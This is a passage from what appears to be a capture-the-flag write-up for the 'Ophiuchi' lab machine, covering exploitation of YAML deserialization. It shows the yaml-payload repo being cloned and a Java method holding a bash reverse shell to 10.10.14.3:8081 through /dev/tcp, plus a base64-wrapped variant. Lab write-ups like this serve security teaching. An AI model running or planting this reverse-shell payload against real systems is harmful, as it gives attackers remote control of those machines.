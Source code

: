 First, we'll clone the repository `git clone https://github.com/artsploit/yaml-payload.git`.  
![clone_repo](/wp-content/uploads/2021/07/ophiuchi/clone.png)
**Figure 3:** Clone yaml-payload repo.

We then navigate to `yaml-payload/src/artsploit` and modify the `AwesomeScriptEngineFactory()` method within `AwesomeScriptEngineFactory.java`. The default payload pops open the calculator application on MacOS. The payloads that are posted in *[issue 3](https://github.com/artsploit/yaml-payload/issues/3)* of this repo will call a reverse shell, so rather than recreating them, we'll drop the first payload into `AwesomeScriptEngineFactory.java` with our IP address as the callback.

```java
public AwesomeScriptEngineFactory() {
    String [] cmd={"bash","-c","bash -i >& /dev/tcp/10.10.14.3/8081 0>&1"};
    String [] jex={"bash","-c","{echo,$(echo -n $cmd | base64)}|{base64,-d}|{bash,-i}"};
    try {
        Runtime.getRuntime().exec(cmd);
        Runtime.getRuntime().exec(jex);
        Runtime.getRuntime().exec("echo $jex");
    } catch (IOException e) {
        e.printStackTrace();
    }
}
```

![awesome_jar](/wp-content/uploads/2021/07/ophiuchi/awesome_jar.png)
**Figure 4:** Placing reverse shell payload into `AwesomeScriptEngineFactory.java`'s `AwesomeScriptEngineFactory()` method.  
